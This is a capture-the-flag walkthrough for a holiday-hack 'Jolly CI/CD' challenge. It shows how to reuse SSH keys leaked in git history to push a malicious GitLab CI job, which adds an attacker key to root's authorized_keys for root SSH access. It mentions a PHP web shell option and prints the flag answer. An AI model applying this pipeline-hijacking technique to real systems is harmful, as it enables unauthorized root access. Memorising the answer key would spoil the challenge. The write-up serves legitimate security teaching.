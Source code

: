 ```yaml
---
icon: simple/travisci
---
```


# Jolly CI/CD
**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star:<br/>
**Direct link**: [CI/CD terminal](https://hhc22-cicd.kringlecon.com/?&challenge=cicd)


## Objective

!!! question "Request"
    Exploit a CI/CD pipeline. Get hints for this challenge from Tinsel Upatree in the Elfen Ring.

??? quote "Rippin Proudboot"
    Yes, hello, I'm Rippin Proudboot. Can I help you?<br/>
    Oh, you'd like to help me? Well, I'm not quite sure you can, but we shall see.<br/>
    The elves here introduced me to this new CI/CD technology. It seems quite efficient.<br/>
    Unfortunately, the sporcs seem to have gotten their grubby mits on it as well, along with the Elfen Ring.<br/>
    They've used CI/CD to launch a website, and the Elfen Ring to power it.<br/>
    Might you be able to check for any misconfigurations or vulnerabilities in their CI/CD pipeline?<br/>
    If you do find anything, use it to exploit the website, and get the ring back!


## Hints

??? hint "Switching Hats"
    If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.

??? hint "Commiting to Mistakes"
    The thing about Git is that every step of development is accessible – even steps you didn't mean to take! `git log` can show code skeletons.


## Solution

??? abstract "Welcome message"
    ```text
    Greetings Noble Player,

    Many thanks for answering our desperate cry for help!

    You may have heard that some evil Sporcs have opened up a web-store selling
    counterfeit banners and flags of the many noble houses found in the land of
    the North! They have leveraged some dastardly technology to power their
    storefront, and this technology is known as PHP!

    ***gasp***

    This strorefront utilizes a truly despicable amount of resources to keep the
    website up. And there is only a certain type of Christmas Magic capable of
    powering such a thing… an Elfen Ring!

    Along with PHP there is something new we've not yet seen in our land.
    A technology called Continuous Integration and Continuous Deployment!

    Be wary!

    Many fair elves have suffered greatly but in doing so, they've managed to
    secure you a persistent connection on an internal network.

    BTW take excellent notes!

    Should you lose your connection or be discovered and evicted the
    elves can work to re-establish persistence. In fact, the sound off fans
    and the sag in lighting tells me all the systems are booting up again right now.

    Please, for the sake of our Holiday help us recover the Ring and save Christmas!
    ```

### Obtain write access to the Git repository

Start by cloning the repository mentioned by [Tinsel Upatree](o6.md) using `git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git` and taking a look at the commit history. Git repositories keep a permanent log of all changes, including mistakes like the one Tinsel made as they were explaining their CI/CD pipeline to us. Once the repository has been cloned, change to the `wordpress.flag.net.internal.git` folder and use `git log` to print commit message details.

![Commit history](../img/objectives/o7/commit_history.png){ class=border }

That *whoops* message seems to indicate someone messed up and tried to correct the problem with an update, so let's take a closer look at the previous commit to see exactly what files were changed. Use `git show abdea0ebb21b156c01f7533cea3b895c26198c98` to bring up the commit details.

??? info "Reading Git diff output"
    Git commit details include output from `git diff` which can be a little daunting to read at first. The syntax is meant to show exactly what information was added and removed from each file between different commits. Here's a [great write-up](https://levelup.gitconnected.com/what-is-git-diff-and-how-do-we-read-the-output-69f5b2036186) that can help to better understand the details of the `diff` syntax.

![Commit details](../img/objectives/o7/commit_details.png){ class=border }

Looks like Tinsel accidently added their private and public SSH keys to the git repository. We can use these files to impersonate Tinsel and clone a writable copy of the repository which we can commit our own changes to. Checkout the commit containing the SSH key files (line 3), create an `.ssh` folder (line 6), copy the private `.deploy` and public `.deploy.pub` SSH keys (lines 7-8), lock down the `.ssh` folder permissions (line 9), and configure a Git email and user name (lines 12-13). For the latter we use the *Author* information found in the git log commit details.

```shell linenums="1" title="Copy SSH keys and configure Git"
# Checkout the commit containing the SSH keys
cd ~/wordpress.flag.net.internal
git checkout abdea0ebb21b156c01f7533cea3b895c26198c98

# Copy the SSH keys
mkdir ~/.ssh
cp ~/wordpress.flag.net.internal/.ssh/.deploy ~/.ssh/id_ed25519
cp ~/wordpress.flag.net.internal/.ssh/.deploy.pub ~/.ssh/id_ed25519.pub
chmod -R g-rwx,o-rwx ~/.ssh

# Configure Git
git config --global user.email "sporx@kringlecon.com"
git config --global user.name "knee-oh"
```

Leveraging what we learned in [Objective 5](o5.md), we can now convert the repository HTTP URL to its SSH counterpart and clone a fresh copy using `git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git`.

![Re-clone](../img/objectives/o7/re-clone.png){ class=border }


### Exploit the CI/CD pipeline

Taking a closer look at the [`.gitlab-ci.yml`](../artifacts/objectives/o7/gitlab-ci.yml) configuration file shows a `deploy-job` entry which leverages `rsync` to copy any changes from *gitlab.flag.net.internal* to *wordpress.flag.net.internal* each time a commit is pushed to the Git repository.

!!! text ".gitlab-ci.yml"
    ```yaml linenums="1"
    stages:
      - deploy

    deploy-job:
      stage: deploy
      environment: production
      script:
        - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy"
           --chown=www-data:www-data -atv --delete --progress
           ./ root@wordpress.flag.net.internal:/var/www/html
    ```

The ability to push changes to the Git repo gives us a few options to obtain access to *wordpress.flag.net.internal*. We could have the CI/CD automation copy over a simple [PHP web shell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) and use [cURL](https://curl.se/) to call the web shell and remotely execute commands on the host. A slightly more robust solution is to leverage the automation pipeline to add our public SSH key to the *root* user's `authorized_keys` file which will grant us the ability to SSH into the web server with maximum privileges.

First, copy the newly obtained `~/.ssh/id_ed25519.pub` file to `~/wordpress.flag.net.internal/id_ed25519.pub`. The existing automation will ensure it ends up at `/var/www/html/id_ed25519.pub` on *wordpress.flag.net.internal*. Next, update the [`.gitlab-ci.yml`](../artifacts/objectives/o7/gitlab-ci-updated.yml) config file and add a new `copy-key-job` entry that initiates an SSH session from the Gitlab host to the Wordpress host and appends the contents of `/var/www/html/id_ed25519.pub` to `/root/.ssh/authorized_keys` (lines 12-17).

!!! text ".gitlab-ci.yml"
    ```yaml linenums="1" hl_lines="12-17"
    stages:
      - deploy

    deploy-job:
      stage: deploy
      environment: production
      script:
        - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy"
           --chown=www-data:www-data -atv --delete --progress
           ./ root@wordpress.flag.net.internal:/var/www/html

    copy-key-job:
      stage: deploy
      environment: production
      script:
        - ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal
           'cat /var/www/html/id_ed25519.pub >> /root/.ssh/authorized_keys'
    ```

With the `id_ed25519.pub` file copied to our locally cloned Git repository folder and a new job entry added to `.gitlab-ci.yml` everything's in place to run our exploit. All that's left is for us to commit (lines 2-3) and push our changes (line 4) to the *gitlab.flag.net.internal* GitLab server, and wait for the updated CI/CD automation to kick off.

```shell linenums="1" title="Commit and push changes to the GitLab host"
cd ~/wordpress.flag.net.internal
git add id_ed25519.pub .gitlab-ci.yml
git commit -m 'Inconspicuous update. Please ignore!'
git push
```

It might take a few seconds, but once the CI/CD automation completes its run we should be able to remotely log in to the web server using `ssh root@wordpress.flag.net.internal`. Since we're using an interactive shell as *root* we have free reign to roam around. The flag value we need to submit on our badge can be found in the `/flag.txt` file. That [ASCII art](https://en.wikipedia.org/wiki/ASCII_art) though! :heart_eyes:

![Finding the flag](../img/objectives/o7/finding_the_flag.png){ class=border }

!!! success "Answer"
    oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT


## Response

!!! quote "Rippin Proudboot"
    How unexpected, you were actually able to help!<br/>
    Well, then I must apoligize for my dubious greeting.<br/>
    Us Flobbits can't help it sometimes, it's just in our nature.<br/>
    Right then, there are other Flobbits that need assistance further into the burrows.<br/>
    Thank you, and off you go.
